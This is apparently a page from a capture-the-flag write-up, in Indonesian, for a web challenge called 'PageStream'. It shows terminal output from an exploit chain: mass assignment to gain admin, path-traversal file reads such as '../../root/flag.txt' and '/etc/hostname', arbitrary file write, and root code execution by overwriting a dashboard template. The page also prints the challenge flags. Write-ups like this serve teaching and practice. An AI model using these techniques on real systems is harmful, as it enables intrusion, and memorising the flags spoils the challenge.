

# PageStream — Output asli

[← Overview](51-pagestream.md) · [Index](index.md)

## 3.3 Output asli

Mass assignment + LFI:

```text
===== POST /profile role=admin =====
POST http://s1.nfx.my.id:43659/profile
HTTP 200

===== GET /dashboard (role now admin) =====
GET http://s1.nfx.my.id:43659/dashboard
HTTP 200
[+] admin badge present: True

===== GET /view?file=../../root/flag.txt =====
HTTP 200  content-type=text/plain; charset=utf-8
'NFX{f3w_n_d4y_ch41ns_f0r_w3b_pwn_1s_n0t_th4t_h4rd_7734a1}\n'
[+] FLAG = NFX{f3w_n_d4y_ch41ns_f0r_w3b_pwn_1s_n0t_th4t_h4rd_7734a1}
```

Arbitrary write + readback:

```text
upload: 302 /dashboard
read ../../pwned-pagestream.txt -> 200 'PAGESTREAM-WRITE-PROOF\n'
read ../../etc/hostname -> 200 '79d4b7833cd4\n'
```

RCE:

```text
upload overwrite dashboard.ejs: 302 /dashboard
GET /dashboard -> 200
uid=0(root) gid=0(root) groups=0(root)
---KEY---
4da4b2091f8dca166bd4ad4dc0cc6d2d---FLAG---
NFX{f3w_n_d4y_ch41ns_f0r_w3b_pwn_1s_n0t_th4t_h4rd_7734a1}

FLAG=NFX{f3w_n_d4y_ch41ns_f0r_w3b_pwn_1s_n0t_th4t_h4rd_7734a1}
```

### Evidence langkah ini


*Terminal evidence — `02-exploit-run.txt` (arsip transkrip sesi solve).*



*Terminal evidence — `03-write-proof.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`02-exploit-run.txt`](assets/pagestream/02-exploit-run.txt)
- [`03-write-proof.txt`](assets/pagestream/03-write-proof.txt)
